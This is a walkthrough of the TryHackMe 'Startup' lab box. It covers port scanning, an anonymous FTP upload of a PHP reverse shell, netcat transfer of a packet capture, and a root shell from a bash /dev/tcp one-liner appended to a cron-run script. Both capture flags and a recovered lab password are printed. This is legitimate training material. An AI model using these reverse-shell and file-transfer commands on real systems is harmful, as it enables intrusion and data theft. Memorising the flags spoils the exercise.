








# Startup


## Room Info

> **Name**
>
> 🔗 [Startup](https://tryhackme.com/room/startup)
>
> **Description**
>
> 📝 ***We are Spice Hut,** a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root.*
>
> 
>
> **Target IP**
>
> 🎯 `10.10.173.77`

## Recon

```bash
su
echo "10.10.173.77 startup.thm" >> /etc/hosts

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

Start Reconnaissance

```bash
mkdir thm/startup
cd thm/startup
nmap startup.thm
    21/tcp open  ftp
    22/tcp open  ssh
    80/tcp open  http

nmap -sV -sC -Pn -oA startup startup.thm
```

```bash
21/tcp open  ftp  vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.18.65.48
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh  OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|   256 ec13258c182036e6ce910e1626eba2be (ECDSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)
80/tcp open  http  Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerate Web server directories

```bash
gobuster dir -u http://startup.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

```bash
/files (Status: 301) [Size: 310] [--> http://startup.thm/files/]
```

Navigate to

- `http://startup.thm/files/`


Login via FTP with `anonymous`:`anonymous`. The files in the folder are the ones from the `/files` webpage.

```bash
ftp startup.thm

ls
```



## Exploitation

Get a Reverse shell by uploading a `PHP` file via FTP and run it through the web page.

```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
nano php-reverse-shell.php
# Set $ip & $port
$ip = '10.18.65.48';
$port = 1234;

mv php-reverse-shell.php shell.php
```

```bash
# In the FTP anonymous session
cd ftp
put shell.php
```

```bash
nc -nvlp 1234
```

- Navigate to `http://startup.thm/files/ftp/shell.php` to get a reverse shell



```bash
/usr/bin/script -qc /bin/bash /dev/null

ls
cat recipe.txt

ls -lah /home
	lennie

ls /incidents
	suspicious.pcapng

cp /incidents/suspicious.pcapng /var/www/html/files/smb
# Permissions denied
```



Transfer `	suspicious.pcapng` using `netcat`

```bash
# Kali
nc -nvlp 5555 > susp.pcap

# Startup box
nc -nv 10.18.65.48 5555 < /incidents/suspicious.pcapng
```

Analyze the `susp.pcap` file in Wireshark or use the `strings` command

```bash
strings susp.pcap
```



Try the string as password for `lennie` user.

```bash
su lennie
# password: c4ntg3t3n0ughsp1c3
# It works
```

> 📌 `lennie`:`c4ntg3t3n0ughsp1c3`

```bash
find / -type f -iname user.txt 2>/dev/null
cat /home/lennie/user.txt
```


<details>
<summary>Reveal Flag - user.txt: 🚩</summary>


`THM{03ce3d619b80ccbfb3b7fc81e46c0e79}`



</details>

Close the reverse shell and connect via SSH

```bash
ssh lennie@startup.thm
```

Perform some Enumeration with `lennie` user

```bash
ls -lah *
    -rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
    
    Documents:
    total 20K
    drwxr-xr-x 2 lennie lennie 4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rw-r--r-- 1 root   root    139 Nov 12  2020 concern.txt
    -rw-r--r-- 1 root   root     47 Nov 12  2020 list.txt
    -rw-r--r-- 1 root   root    101 Nov 12  2020 note.txt
    
    scripts:
    total 16K
    drwxr-xr-x 2 root   root   4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
    -rw-r--r-- 1 root   root      1 May 15 13:38 startup_list.txt

cat scripts/*
cat Documents/*
cat /etc/print.sh
ls -lah /etc/print.sh
	-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```



## Privilege Escalation

Since `planner.sh` will be run as root (with a cron job), and it contains the `/etc/print.sh` command script, modify `/etc/print.sh` and input a payload (a reverse shell for example) into it to run it as `root`.

```bash
echo "/bin/bash -i >& /dev/tcp/10.18.65.48/3333 0>&1" >> /etc/print.sh
```

Wait for the reverse shell on the attacker machine. The root will run the `planner.sh` script once a minute.

```bash
# Kali
nc -nvlp 3333
```



```bash
find / -type f -iname root.txt 2>/dev/null
cat /root/root.txt
```


<details>
<summary>Reveal Flag - root.txt: 🚩</summary>


`THM{f963aaa6a430f210222158ae15c3d76d}`



</details>


------

